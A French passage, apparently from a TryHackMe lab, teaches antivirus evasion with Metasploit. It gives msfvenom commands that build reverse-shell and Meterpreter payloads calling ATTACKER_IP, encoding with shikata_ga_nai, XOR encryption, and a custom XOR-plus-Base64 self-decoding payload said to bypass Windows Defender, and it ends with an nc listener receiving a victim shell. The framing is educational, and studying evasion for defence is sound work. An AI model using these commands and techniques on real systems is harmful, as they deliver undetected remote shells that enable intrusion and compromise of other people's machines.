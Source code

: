 ## Encoder avec MSFVenom

Les outils publics tels que Metasploit fournissent des fonctionnalités d'encodage et de cryptage. Cependant, les fournisseurs audiovisuels sont conscients de la manière dont ces outils créent leurs charges utiles et prennent des mesures pour les détecter. Si vous essayez d'utiliser de telles fonctionnalités dès le départ, il est probable que votre charge utile soit détectée dès que le fichier touche le disque de la victime.

Générons une charge utile simple avec cette méthode pour prouver ce point.  Tout d'abord, vous pouvez lister tous les encodeurs disponibles pour msfvenom avec la commande suivante :

Liste des encodeurs dans le framework Metasploit

```
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

Nous pouvons indiquer que nous voulons utiliser l' `shikata_ga_nai`encodeur avec le `-e`commutateur (encoder), puis spécifier que nous voulons encoder la charge utile trois fois avec le `-i`commutateur (itérations) :

Encodage à l'aide du framework Metasploit (Shikata_ga_nai)

```
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

Si nous essayons de télécharger notre charge utile nouvellement générée sur notre machine de test, l' AV la signalera instantanément avant même que nous ayons la possibilité de l'exécuter :

![Windows Defender a détecté notre charge utile comme malveillante !](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/747c69e737c96044123329c47845f659.png)

Si le codage ne fonctionne pas, nous pouvons toujours essayer de chiffrer la charge utile. Intuitivement, nous nous attendrions à ce que cela ait un taux de réussite plus élevé, car le décryptage de la charge utile devrait s'avérer une tâche plus difficile pour l' AV . Essayons ça maintenant.

## Chiffrement à l'aide de MSFVenom

Vous pouvez facilement générer des charges utiles cryptées à l'aide de msfvenom. Les choix en matière d'algorithmes de chiffrement sont cependant un peu rares. Pour lister les algorithmes de chiffrement disponibles, vous pouvez utiliser la commande suivante :

Liste des modules de chiffrement dans Metasploit Framework

```
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Créons une charge utile chiffrée XOR. Pour ce type d'algorithme, vous devrez spécifier une clé. La commande ressemblerait à ceci :

Xoring Shellcode à l'aide du framework Metasploit

```
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

Encore une fois, si nous téléchargeons le shell résultant dans THM Antivirus Check ! page à `http://MACHINE_IP/`, il sera toujours signalé par l' AV . La raison est toujours que les fournisseurs d'antivirus ont investi beaucoup de temps pour garantir la détection de simples charges utiles msfvenom.

## Création d'une charge utile personnalisée

La meilleure façon de surmonter ce problème est d'utiliser nos propres schémas de codage personnalisés afin que l' AV ne sache pas quoi faire pour analyser notre charge utile. Notez que vous n'avez rien de trop complexe à faire, à condition que cela soit suffisamment déroutant pour que l'AV puisse l'analyser. Pour cette tâche, nous prendrons un simple shell inversé généré par msfvenom et utiliserons une combinaison de XOR et Base64 pour contourner Defender.

Commençons par générer un reverse shell avec msfvenom au format CSharp :

Générer un format de shellcode CSharp

```
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

## L'encodeur

Avant de créer notre charge utile réelle, nous allons créer un programme qui prendra le shellcode généré par msfvenom et l'encodera comme bon nous semble. Dans ce cas, nous allons d'abord effectuer un XOR sur la charge utile avec une clé personnalisée, puis l'encoder en base64. Voici le code complet de l'encodeur (vous pouvez également trouver ce code sur votre ordinateur Windows à l'adresse C:\Tools\CS Files\Encryptor.cs) :

*Code de charge utile complet (cliquez pour lire)*

Le code est assez simple et générera une charge utile codée que nous intégrerons dans la charge utile finale. N'oubliez pas de remplacer la `buf`variable par le shellcode que vous avez généré avec msfvenom.

Pour compiler et exécuter l'encodeur, nous pouvons utiliser les commandes suivantes sur la machine Windows :

Compilation et exécution de notre encodeur CSharp personnalisé

```
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

## Charge utile à décodage automatique

Puisque nous avons une charge utile codée, nous devons ajuster notre code pour qu'il décode le shellcode avant de l'exécuter. Pour faire correspondre l'encodeur, nous allons tout décoder dans l'ordre inverse dans lequel nous l'avons codé, nous commençons donc par décoder le contenu base64, puis continuons en effectuant un XOR sur le résultat avec la même clé que celle que nous avons utilisée dans l'encodeur. Voici le code complet de la charge utile (vous pouvez également l'obtenir sur votre ordinateur Windows à l'adresse `C:\Tools\CS Files\EncStageless.cs`) :

*Code de charge utile complet (cliquez pour lire)*

Notez que nous avons simplement combiné quelques techniques très simples qui ont été détectées lorsqu'elles étaient utilisées séparément. Pourtant, l' AV ne se plaindra pas de la charge utile cette fois-ci, car la combinaison des deux méthodes n'est pas quelque chose qu'il peut analyser directement.

Compilons notre payload avec la commande suivante sur la machine Windows :

Compilez notre charge utile cryptée

```
C:\> csc.exe EncStageless.cs
```

Avant d'exécuter notre charge utile, configurons un `nc`écouteur. Après avoir copié et exécuté notre charge utile sur la machine victime, nous devrions rétablir une connexion comme prévu :

Configurer l'écouteur nc

```
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

Comme vous pouvez le constater, de simples ajustements suffisent parfois. La plupart du temps, les méthodes spécifiques que vous trouvez en ligne ne fonctionneront probablement pas immédiatement, car des signatures de détection peuvent déjà exister pour elles. Cependant, faire preuve d'un peu d'imagination pour personnaliser n'importe quelle méthode pourrait s'avérer suffisant pour réussir un contournement.
